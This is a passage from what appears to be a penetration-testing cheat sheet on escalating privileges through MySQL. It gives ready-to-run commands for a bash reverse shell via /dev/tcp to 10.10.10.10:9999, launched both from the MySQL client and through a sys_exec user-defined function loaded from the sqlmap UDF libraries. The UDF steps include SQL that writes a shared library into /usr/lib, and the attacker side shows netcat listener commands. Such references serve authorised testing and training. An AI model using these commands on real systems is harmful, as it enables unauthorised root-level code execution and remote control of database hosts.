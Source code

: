 Example 2

Victim
```
ps aux | grep root

mysql -u root -p

\! bash -i >& /dev/tcp/10.10.10.10/9999 0>&1
```
Attacker

```
nc -lvnp 9999
id && whoami
```

# MySQL UDF (User-Defined Functions) Code (UDF) Injection

User Defined Function (UDF) is a piece of code that extends the functionality of a MySQL server by adding a new function that behaves just like a native (built-in) MySQL function, such as abs() or concat()
UDFs are useful when you need to extend the functionality of your MySQL server
For penetration testing, we can include a UDF inside our database that loads a library that has the ability to execute commands via the sys_exec() function which gives us code execution

Example 1 - Reverse Shell 

Download UDF (Linux - 64 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64
Download UDF (Linux - 32 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/32

Victim
```
ps aux | grep root                        //  Verify that MySQL is running as root
Save the UDF in the /tmp folder ( Example: /tmp/lib_mysqludf_sys.so)
mysql -u root -p

mysql> use mysql;
mysql> create table admin(line blob);
mysql> insert into admin values(load_file('/tmp/lib_mysqludf_sys.so'));
mysql> select * from admin into dumpfile '/usr/lib/lib_mysqludf_sys.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('bash -i >& /dev/tcp/10.10.10.10/9999 0>&1');

// Any UDF library can be used , as long as it is exploitable via the sys_exec() function
// The "admin" table name can be named anything
// Ensure that the path to the UDF (.so) is correct
// Replace IP & Port
```
Attacker
```
nc -lvnp 9999
```
